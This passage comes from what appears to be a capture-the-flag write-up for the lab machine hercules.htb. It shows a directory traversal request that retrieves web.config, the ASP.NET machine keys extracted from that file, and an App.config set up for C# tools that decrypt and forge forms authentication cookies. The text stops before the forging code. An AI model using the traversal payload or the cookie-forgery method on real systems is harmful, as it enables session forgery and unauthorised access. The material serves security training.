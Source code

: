## Phase 5: Web Exploitation — Directory Traversal, Machine Key Extraction, Cookie Forgery, and NTLM Capture

**After authenticating as `ken.w`, discovered a file download function vulnerable to directory traversal.**

### Directory Traversal in File Download

**Normal Request:**

```
https://hercules.htb/Home/Download?fileName=registration.pdf
```

**Malicious Request (directory traversal):**

```
https://hercules.htb/Home/Download?fileName=..\..\web.config
```

> Note: In the application the traversal was achieved by manipulating the `fileName` parameter (double-encoded or with `.`/`..` sequences depending on the filter). The above example shows the end goal: retrieving `web.config`.

### Machine Key Extraction

The directory traversal successfully retrieved the `web.config` file which contained the ASP.NET machine keys used to protect Forms Authentication tickets:

```xml
<machineKey
    decryption="AES"
    decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581"
    validation="HMACSHA256"
    validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80"
/>
```

These keys allow decryption and forging of ASP.NET forms authentication cookies for the application.

### Forms Authentication Cookie Manipulation

With the machine keys, I created small C# utilities to decrypt existing authentication cookies and to forge new ones.

**App.config (used by both projects):**

```xml
<?xml version="1.0"?>
<configuration>
  <system.web>
    <compilation debug="false" targetFramework="4.8" />
    <machineKey
      validationKey="EBF9076B4E3026BE6E3AD58FB72FF9FAD5F7134B42AC73822C5F3EE159F20214B73A80016F9DDB56BD194C268870845F7A60B39DEF96B553A022F1BA56A18B80"
      decryptionKey="B26C371EA0A71FA5C3C9AB53A343E9B962CD947CD3EB5861EDAE4CCC6B019581"
      validation="HMACSHA256"
      decryption="AES" />
  </system.web>
</configuration>
```
